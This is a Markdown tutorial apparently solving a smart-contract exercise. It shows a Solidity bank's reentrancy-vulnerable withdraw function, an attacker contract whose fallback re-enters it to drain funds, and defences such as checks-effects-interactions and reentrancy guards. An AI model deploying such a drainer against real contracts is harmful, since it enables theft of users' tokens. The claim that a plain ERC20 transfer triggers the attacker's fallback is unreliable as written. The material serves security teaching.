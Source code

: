 # Token Whale Reentrancy Attack Solution

## Overview

This exercise demonstrates a classic reentrancy vulnerability in a token bank contract. The `TokenWhale` contract allows users to deposit and withdraw ERC20 tokens, but the `withdraw` function is vulnerable to reentrancy attacks due to improper state management.

## The Vulnerability


### Root Cause
The vulnerability exists in the `withdraw` function of the `TokenWhale` contract:

```solidity
function withdraw(address token, uint256 amount) external {
    uint256 userBalance = balances[token][msg.sender];
    require(userBalance >= amount, "Insufficient balance");
    
    // VULNERABILITY: External call before state update
    bool success = IToken(token).transfer(msg.sender, amount);
    require(success, "Token transfer failed");
    
    // State update happens AFTER the external call (vulnerable to reentrancy)
    balances[token][msg.sender] -= amount;
}
```

**The Problem**: The contract makes an external call (`IToken(token).transfer()`) before updating the internal state (`balances[token][msg.sender] -= amount`). This creates a window where an attacker can re-enter the function and drain funds.

### Why This Happens
1. **External Call First**: The contract transfers tokens to the caller
2. **State Update After**: The balance is only updated after the transfer
3. **Reentrancy Window**: Between the transfer and balance update, the attacker can call `withdraw` again
4. **Recursive Drain**: Each call sees the old balance, allowing multiple withdrawals

## The Attack

### Attack Contract: `TokenWhaleAttacker`

The attacker contract exploits this vulnerability through the following steps:

1. **Setup**: Deposit tokens into the vulnerable contract
2. **Initiate Attack**: Call `withdraw` to start the attack
3. **Reentrancy**: Use `fallback()` or `receive()` to re-enter during token transfer
4. **Drain**: Continue withdrawing until the contract is empty

### Key Components

#### Attack Initialization
```solidity
function attack(uint256 attackAmount) external {
    // Transfer tokens from attacker to this contract
    IToken(targetToken).transferFrom(msg.sender, address(this), attackAmount);
    
    // Approve TokenWhale to spend our tokens
    IToken(targetToken).approve(address(tokenWhale), attackAmount);
    
    // Deposit tokens into TokenWhale
    tokenWhale.deposit(targetToken, attackAmount);
    
    // Start the reentrancy attack
    attacking = true;
    tokenWhale.withdraw(targetToken, attackAmount);
    attacking = false;
}
```

#### Reentrancy Logic
```solidity
fallback() external {
    if (attacking) {
        uint256 whaleBalance = tokenWhale.getTotalBalance(targetToken);
        uint256 myBalance = tokenWhale.getBalance(targetToken, address(this));
        
        if (whaleBalance > 0 && myBalance > 0) {
            // Re-enter the withdraw function before the state is updated
            tokenWhale.withdraw(targetToken, myBalance);
        }
    }
}
```

## Attack Flow

1. **Attacker deposits 100 tokens** into TokenWhale
2. **Attacker calls `withdraw(100)`**
3. **TokenWhale checks balance**: `balances[token][attacker] = 100` ✓
4. **TokenWhale transfers 100 tokens** to attacker
5. **Attacker's `fallback()` is triggered** during the transfer
6. **Attacker re-enters `withdraw(100)`** before balance is updated
7. **TokenWhale checks balance again**: `balances[token][attacker] = 100` ✓ (still old value!)
8. **TokenWhale transfers another 100 tokens**
9. **Process repeats** until TokenWhale is drained

## Impact

- **Fund Drainage**: Attacker can drain all tokens from the contract
- **Recursive Exploitation**: Each deposit can be withdrawn multiple times
- **Economic Loss**: Legitimate users lose their deposited tokens

## Prevention

### 1. Checks-Effects-Interactions Pattern
Update state before making external calls:

```solidity
function withdraw(address token, uint256 amount) external {
    uint256 userBalance = balances[token][msg.sender];
    require(userBalance >= amount, "Insufficient balance");
    
    // SECURE: Update state BEFORE external call
    balances[token][msg.sender] -= amount;
    
    // Make external call after state update
    bool success = IToken(token).transfer(msg.sender, amount);
    require(success, "Token transfer failed");
}
```

### 2. Reentrancy Guard
Use a modifier to prevent reentrancy:

```solidity
bool private locked;

modifier noReentrant() {
    require(!locked, "No reentrancy allowed");
    locked = true;
    _;
    locked = false;
}

function withdraw(address token, uint256 amount) external noReentrant {
    // ... function logic
}
```

### 3. Pull Payment Pattern
Let users withdraw their own funds instead of pushing:

```solidity
mapping(address => uint256) public pendingWithdrawals;

function requestWithdrawal(address token, uint256 amount) external {
    // Update state immediately
    balances[token][msg.sender] -= amount;
    pendingWithdrawals[msg.sender] += amount;
}

function withdrawFunds() external {
    uint256 amount = pendingWithdrawals[msg.sender];
    pendingWithdrawals[msg.sender] = 0;
    // Transfer to user
}
```

## Testing the Attack

### Setup
1. Deploy `MockToken` with initial supply
2. Deploy `TokenWhale` contract
3. Deploy `TokenWhaleAttacker` with TokenWhale and token addresses
4. Transfer tokens to attacker contract
5. Call `attack()` function

### Expected Result
- Attacker contract should drain all tokens from TokenWhale
- Multiple withdrawals occur from a single deposit
- TokenWhale's balance goes to zero

## Real-World Examples

- **The DAO Hack (2016)**: $60M drained through reentrancy
- **Lendf.me (2020)**: $25M stolen via reentrancy attack
- **Cream Finance (2021)**: $130M lost to reentrancy

## Key Takeaways

1. **Always update state before external calls**
2. **Use reentrancy guards for critical functions**
3. **Follow the Checks-Effects-Interactions pattern**
4. **Test thoroughly with malicious contracts**
5. **Consider using established libraries like OpenZeppelin**

This vulnerability demonstrates why proper state management and external call ordering are crucial for smart contract security.
